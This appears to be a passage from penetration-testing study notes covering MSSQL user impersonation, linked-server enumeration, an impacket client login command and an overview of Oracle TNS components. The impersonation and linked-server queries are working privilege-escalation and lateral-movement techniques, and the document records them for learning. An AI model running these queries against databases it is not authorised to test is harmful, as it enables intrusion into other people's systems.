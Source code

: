 ![Screenshot_17](https://github.com/kiro6/penetration-testing-notes/assets/57776872/4eb852f0-5a37-4d2e-bafc-c40afaf7bcef)

- **Impersonate Existing Users with MSSQL**
prefereed to move the master DB using `USE master`
```shell 
# Identify Users that We Can Impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

# Verifying our Current User and Role
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# Impersonating the amother user User
EXECUTE AS LOGIN = 'another user'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

```

- **Communicate with Other Databases with MSSQL**
```shell
# Identify linked Servers in MSSQL
SELECT srvname, isremote FROM sysservers

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

# where 1 means is a remote server

# identify the user used for the connection and its privileges.
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```


### Service Interaction
```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py Administrator@10.129.201.248 -windows-auth
```
## Oracle TNS
The Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks.

**Components**
- Listener: A process on the server side that listens for incoming connection requests from clients and establishes communication channels with the appropriate database instances.
- Service Name: A logical name associated with a specific database service or instance, used by clients to identify and connect to the desired database.
- Connect Descriptor: Contains information necessary for a client to establish a connection to an Oracle database, including network protocol, server hostname or IP address, port number, and service name.
- Listener.ora: A configuration file defining settings for the Listener process, including protocol addresses, offered services, and security settings.
- Tnsnames.ora: A configuration file used by Oracle clients to resolve service names to connect descriptors, facilitating easy identification and connection to Oracle databases.

